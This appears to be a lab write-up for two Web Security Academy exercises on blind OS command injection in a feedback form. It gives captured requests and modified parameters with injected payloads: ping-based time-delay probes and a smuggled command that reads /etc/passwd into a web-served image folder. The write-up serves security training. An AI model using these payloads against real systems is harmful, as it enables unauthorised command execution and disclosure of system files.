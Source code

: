 # Blind OS command injection vulnerabilities
## Lab: Blind OS command injection with time delays

Sample request
```
POST /feedback/submit HTTP/1.1
Host: ac031f731f33252480f62106001a00b5.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 112
Origin: https://ac031f731f33252480f62106001a00b5.web-security-academy.net
Connection: close
Referer: https://ac031f731f33252480f62106001a00b5.web-security-academy.net/feedback
Cookie: session=ev24V9G6Ba98S5KtiQLZeenNgdSlrNVO

csrf=BHYqUKMi41wmqBX8A15sLq4v7vOHfU53&name=fahmi&email=fahmi%40mail.com&subject=This+website+is+vulnerable+by+design&message=so
```

Sample auto mailing:
```
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
``` 

Detect using time-delay
```
||ping+-c10+127.0.0.1||
;ping+-c10+127.0.0.1;
```

Modified body parameter
```
csrf=BHYqUKMi41wmqBX8A15sLq4v7vOHfU53&name=fahmi&email=fahmi%40mail.com;ping+-c10+127.0.0.1;&subject=This+website+is+vulnerable+by+design&message=so
```

Injection on auto mailing:
```
mail -s "This website is vulnerable by design" -aFrom:NotValidMail||ping -c 10 127.0.0.1|| feedback@vulnerable-website.com
``` 

Note:
`A ; B`, run A then run B
`A || B`, if A failed, run B
`A && B`, run B if a success
`A & B`, run A in background, run B in foreground

## Lab: Blind OS command injection with output redirection

Sample request:
```
POST /feedback/submit HTTP/1.1
Host: ac431f7a1e758c6c80c71c6a00a70078.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 158
Origin: https://ac431f7a1e758c6c80c71c6a00a70078.web-security-academy.net
Connection: close
Referer: https://ac431f7a1e758c6c80c71c6a00a70078.web-security-academy.net/feedback
Cookie: session=58KoRxpoSbGR6XrHJBq7E3In48CGQW6t

csrf=b70JaGDFLtHCutnEPjIAHqsi51VinWlF&name=fahmi&email=fahmi%40mail.com&subject=website+is+vulnerable&message=test
```

Modified body parameter:
```
csrf=b70JaGDFLtHCutnEPjIAHqsi51VinWlF&name=fahmi&email=fahmi%40mail.com||cat+/etc/passwd+>+/var/www/images/passwd||&subject=website+is+vulnerable&message=test
```

Possible location:
```
https://blabla/image?filename=15.jpg
``` 
Then it would be
```
https://blabla/image?filename=passwd
```
But because the content-type is set to image/jpeg, the browser will try to render `passwd` to an image, therefore we'll see an error in the browser.

We need BurpSuite to intercept the request as well as its response.

![2f66306da4784b1eb2c629ac1012d95c.png](./_resources/2f66306da4784b1eb2c629ac1012d95c.png)
